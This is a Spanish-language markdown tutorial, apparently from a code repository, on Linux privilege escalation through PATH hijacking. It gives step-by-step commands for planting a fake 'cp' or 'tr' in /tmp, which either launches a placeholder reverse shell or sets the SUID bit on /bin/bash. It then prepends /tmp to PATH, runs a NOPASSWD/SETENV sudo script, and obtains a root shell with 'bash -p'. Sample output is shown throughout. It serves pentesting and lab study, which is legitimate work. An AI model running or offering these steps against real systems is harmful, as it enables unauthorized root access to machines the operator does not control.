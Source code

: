 <h1 align="center">Path Hijacking**</h1>

## **DEFINICIÓN:**

El Path Hijacking (Secuestro de Ruta) es una técnica de ataque donde un atacante manipula la variable de entorno PATH para ejecutar programas maliciosos en lugar de los programas legítimos.

## **FUNCIONAMIENTO**

- El atacante modifica la variable PATH para incluir directorios bajo su control al principio de la lista.

## **Localizar un script que ejecute un comando con la ruta relativa**

Por ejemplo, si leemos el script.sh, nos damos cuenta que hace lo siguiente:

- `cat script.sh`

- `cp /home/* /copia-home`

## **Manipular la variable $PATH**

`echo PATH=/tmp:$PATH`

## **Crear el comando cp**

- `cd /tmp`
- `nano cp`
- `/bin/bash -c “reverse shell”`

## **EXPLICACIÓN**

Cuando se ejecute el comando cp del script, en el primer lugar que buscará el comando cp es en /tmp por lo que se ejecutará una reverse shell. Si este script lo ejecuta root tendremos una reverse shell como root.

## **Ejemplo de convertir el bash en suid con path hijacking**

### **Manual de Escalada de Privilegios: Shell como Root**

#### **Descripción**

En este manual, se explicará cómo escalar privilegios a root utilizando un script que puede ser ejecutado con sudo sin necesidad de contraseña (NOPASSWD) y con la capacidad de modificar variables de entorno (SETENV). Aprovecharemos la presencia de rutas relativas en el script para realizar un ataque conocido como **Path Hijacking**.

### **Enumeración Básica del Sistema**

**Verificación de Permisos con sudo**: Ejecuta el siguiente comando para ver los permisos del usuario gh0st:

`sudo -l`

Deberías ver una salida similar a la siguiente:  

`(ALL : ALL) SETENV: NOPASSWD: /opt/security.sh`

### **Análisis del Script**

1. **Analizar el Contenido del Script /opt/security.sh**: Revisa el script para identificar comandos que se ejecutan con rutas relativas. Esto es crucial para planificar el ataque de Path Hijackingm, EL SCRIPT CONTIENE EL COMANDO TR Y SE NOMBRA DE FORMA RELATIVA.

### **Ataque de Path Hijacking**

**Preparar el Entorno**: Nos movemos a un directorio donde tengamos permisos de escritura, como /tmp:  
`cd /tmp`

**Crear un Script Malicioso**: Creamos un script llamado tr, que reemplazará al comando tr original y asignará permisos SUID al binario bash:  
- `echo '#!/bin/bash' > tr`

- `echo 'chmod +s /bin/bash' >> tr`

- `chmod +x tr`

**Modificar la Variable PATH**: Ajustamos la variable PATH para que incluya el directorio /tmp antes de las rutas habituales:  
`echo $PATH`

\# Verifica la ruta actual, debería mostrar algo como:

- `/usr/local/bin:/usr/bin:/bin:/usr/games`

- `PATH=/tmp:$PATH`

- `echo $PATH`

\# Verifica que ahora la ruta incluye /tmp al principio:

`/tmp:/usr/local/bin:/usr/bin:/bin:/usr/games`

**Ejecutar el Script con Path Hijacking**: Ejecutamos el script security.sh especificando la variable de entorno PATH modificada: 

`sudo -u 'root' PATH=/tmp:$PATH /opt/security.sh`

1. El script se ejecutará y utilizará nuestro script tr en lugar del comando tr original, activando el bit SUID en bash.

### **Verificar y Escalar Privilegios**

**Verificar Permisos del Binario bash**: Verifica que el bit SUID del binario bash está activo:  
`ls -la /bin/bash`

Deberías ver una salida similar a esta, indicando que el bit SUID está activo:  
`-rwsr-sr-x 1 root root 1234376 Mar 27 2022 /bin/bash`

**Obtener una Shell con Privilegios de Root**: Ahora puedes ejecutar bash con privilegios de root:  
`bash -p`

**Verificar Usuario**: Comprueba que tienes privilegios de root:  
`whoami`

Debería devolver:

`root`
